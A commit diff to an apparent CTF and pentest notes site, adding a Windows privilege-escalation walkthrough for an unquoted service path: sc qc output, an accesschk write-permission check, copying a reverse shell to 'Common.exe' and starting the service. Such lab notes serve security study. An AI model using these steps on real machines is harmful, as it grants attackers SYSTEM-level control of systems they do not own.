

Before and after one commit to xanhacks/ctf-docs, an MkDocs documentation site: the page built from docs/pentest/privesc/windows.md, in a window 1280 px wide and 900 px high, scrolled down 1438 px. Built offline with MkDocs 1.6.1 and Material for MkDocs 9.7.7, drawn with Linux system fonts in a browser that asks for light colours; nearby versions of some CDN libraries; comment, search, counter and statistics services are not loaded; before the commit the page ends 1805 px from its top, so only the background shows below that.

Commit message:
add unquoted path

````diff
--- a/docs/pentest/privesc/windows.md
+++ b/docs/pentest/privesc/windows.md
@@ -74,3 +74,35 @@ C:\PrivEsc>net start daclsvc
 ```
 
 ## Service unquoted path
+
+```powershell
+C:\PrivEsc>sc qc unquotedsvc
+[SC] QueryServiceConfig SUCCESS
+
+SERVICE_NAME: unquotedsvc
+        TYPE               : 10  WIN32_OWN_PROCESS
+        START_TYPE         : 3   DEMAND_START
+        ERROR_CONTROL      : 1   NORMAL
+        BINARY_PATH_NAME   : C:\Program Files\Unquoted Path Service\Common Files\unquotedpathservice.exe
+        LOAD_ORDER_GROUP   :
+        TAG                : 0
+        DISPLAY_NAME       : Unquoted Path Service
+        DEPENDENCIES       :
+        SERVICE_START_NAME : LocalSystem
+
+# Check if we can write into the folder
+C:\PrivEsc>accesschk.exe /accepteula -uwdq "C:\Program Files\Unquoted Path Service\"
+C:\Program Files\Unquoted Path Service
+  Medium Mandatory Level (Default) [No-Write-Up]
+  RW BUILTIN\Users
+  RW NT SERVICE\TrustedInstaller
+  RW NT AUTHORITY\SYSTEM
+  RW BUILTIN\Administrators
+
+# Copy reverse shell
+C:\PrivEsc>copy C:\Users\user\revshell.exe "C:\Program Files\Unquoted Path Service\Common.exe"
+        1 file(s) copied.
+
+C:\PrivEsc>net start unquotedsvc
+...
+```
````
